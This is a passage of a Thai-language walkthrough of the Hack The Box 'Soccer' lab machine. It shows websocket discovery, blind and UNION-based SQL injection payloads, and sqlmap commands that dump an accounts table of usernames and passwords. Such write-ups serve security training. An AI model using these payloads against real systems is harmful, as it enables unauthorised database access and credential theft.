 จากนั้นทดสอบสมัครสมาชิกแล้วเข้ามาด้านในเว็บไซต์ 

![[Challenge/HTB Challenge/Soccer/IMG/010.png]]

## Web-socket
หากตรวจสอบจะพบว่ามีการ request โดยใช้ web-socket ไปที่ soc-player.soccer.htb:9091 
![[Challenge/HTB Challenge/Soccer/IMG/011.png]]
มีการใช้งาน Websockets 

![[Challenge/HTB Challenge/Soccer/IMG/012.png]]
![[Challenge/HTB Challenge/Soccer/IMG/013.png]]
![[Challenge/HTB Challenge/Soccer/IMG/014.png]]
ทดสอบส่ง sql statement ปรากฎว่าระบบตอบมาว่า Ticket 

## Blind injection 

==Condition:==
==Ticket Doesn't Exists = false== 
==Ticket Exists = true==

![[Challenge/HTB Challenge/Soccer/IMG/016.png]]


หากทดสอบด้วยวิธีการทำ Union จะพบว่ามีข้อมูลอยู่ 3 ส่วนที่สำเร็จ 
```sql
0 UNION SELECT 1,2,3;
```
![[Challenge/HTB Challenge/Soccer/IMG/017.png]]

ซึ่งหาเรา Manual Test เราจะต้องเดาเป็นจำนวนมาก 

```sql
0 UNION select user,2,3 from mysql.user where user like 'a%'-- -
```

### SQLMAP 
```bash
# Search DB
sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10 

# Serch Table 
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10

# Dump Table 
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10 ...
```
ผลลัพธ์ทำให้เราเป็นถึงข้อมูล user:password 
![[Challenge/HTB Challenge/Soccer/IMG/018.png]]
